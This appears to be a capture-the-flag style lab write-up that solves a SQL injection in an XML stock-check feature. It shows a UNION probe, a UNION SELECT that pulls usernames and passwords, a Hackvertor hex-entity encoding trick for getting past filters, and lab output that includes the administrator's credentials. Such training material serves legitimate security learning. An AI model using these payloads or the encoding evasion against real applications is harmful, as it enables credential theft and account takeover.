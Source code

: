 # Description
This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.
# Solution
1) Verify whether server handles SQL query:
```
<storeId>1 UNION SELECT NULL</storeId>
```

2) Use **Hackvertor** to retrieve user and password:
```
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users</@hex_entities></storeId>
```
- Hackvertor is used for encoding, converting to other format.
- We change to HTML character entity by `<@hex_entities>` because of XML-based SQLi.

**Output:**
```
wiener~m5q0tiz5ba78gzbsqnxn
516 units
carlos~vbch99ig7hqy02wqgldi
administrator~wuohylzcupvqv1rld2pn
```